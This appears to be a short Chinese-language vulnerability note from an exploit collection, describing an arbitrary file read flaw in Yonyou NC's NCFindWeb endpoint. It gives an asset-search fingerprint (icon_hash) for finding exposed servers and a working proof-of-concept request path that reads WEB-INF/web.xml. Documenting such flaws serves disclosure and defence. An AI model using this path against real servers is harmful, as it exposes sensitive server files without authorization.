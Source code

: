 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## 网络测绘

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](./images/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](./images/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)

